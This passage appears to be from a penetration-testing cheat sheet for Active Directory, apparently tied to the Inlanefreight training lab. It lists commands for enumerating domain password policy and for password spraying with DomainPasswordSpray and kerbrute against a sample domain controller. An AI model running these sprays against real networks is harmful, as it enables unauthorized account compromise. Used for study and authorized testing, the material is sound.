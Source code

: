 ```powershell-session
import-module .\PowerView.ps1

Get-DomainPolicy
```

##### Windows Management Instrumentation (`WMI`)

```powershell
# Dumps information about any system accounts that are being used as service accounts.
wmic sysaccount list /format:list	
```

##### Powershell

[The net.exe commands](powershell.md): 

```powershell
# Information about password requirements
net accounts	

# Password and lockout policy
net accounts /domain

# Information about the current user
net user %username%	
```


### Password spraying

#### DomainPasswordSpray

[See DomainPasswordSpray](domainpasswordspray.md)

```powershell-session
Import-Module .\DomainPasswordSpray.ps1

# Authenticated in the domain:
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
# If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

# Not authenticated in the domain:
Invoke-DomainPasswordSpray -UserList userlist.txt -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

#### kerbrute

```
./kerbrute_windows_amd64.exe passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_ad_users  Welcome1
```

#### crackmapexec

